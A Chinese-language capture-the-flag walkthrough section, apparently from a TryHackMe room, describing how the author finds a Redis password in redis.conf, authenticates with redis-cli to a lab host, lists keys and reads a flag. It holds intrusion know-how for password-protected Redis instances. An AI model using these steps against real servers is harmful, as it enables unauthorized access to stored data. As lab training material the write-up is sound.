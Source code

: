 # 端口 6379 — redis

参考前面 NMAP 扫描的输出，我知道 redis 运行在端口 6379 上。看着 **redis.conf** 文件，发现了一个密码。

```
requirepass "B65Hx562...."
```

默认情况下，可以在没有凭据的情况下访问 Redis。但是，可以将其配置为仅支持密码，或用户名+密码。

> **N.B.** Redis 是一个开源的(BSD 许可的)、内存中的数据结构存储，用作数据库、缓存和消息代理。

我发现下面的资源对于学习更多关于利用 redis 的知识很有用:

[](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) [## 6379 - Pentesting Redis

### Redis 是开源的(BSD 许可)，内存中)。默认情况下，Redis 通常使用基于纯文本的协议…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) 

在常规的 Redis 实例中，您可以使用 **nc** 进行连接，也可以使用 **redis-cli。**我尝试的第一个命令是**信息**，但它返回了“***-需要 NOAUTH 认证”*** 消息，这确认了我需要使用上面找到的密码:

```
$ redis-cli -h 10.10.63.20810.10.63.208:6379> info
NOAUTH Authentication required.10.10.63.208:6379> AUTH B65Hx562.....
OK
```

通过身份验证后，我查看是否有可以转储的数据库。在 Redis 中，数据库是从 0 开始的数字。您可以在命令 **info，**的输出中找到是否使用了 **"Keyspace"** 块内的任何:

```
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

我可以看到数据库 0 正在使用，并包含 5 个键。默认情况下，Redis 将使用数据库 0。我列出了如下所示的键，并继续获取内部标志:

```
10.10.63.208:6379> KEYS *
1) "tmp"
2) "int"
3) "authlist"
4) "marketlist"
5) "internal flag"10.10.63.208:6379> get "internal flag"
"THM{ff8e518addbb.......}"
(0.55s)
```

第二面旗子完成了，还有一半！

对于其他数据库，Redis 支持 5 种数据类型。您需要知道一个键映射到什么类型的值，对于每种数据类型，检索它的命令是不同的。以下是检索不同键值的命令:

```
if value is of type string -> GET <key>
if value is of type hash -> HGETALL <key>
if value is of type lists -> lrange <key> <start> <end>
if value is of type sets -> smembers <key>
if value is of type sorted sets -> ZRANGEBYSCORE <key> <min> <max>
```
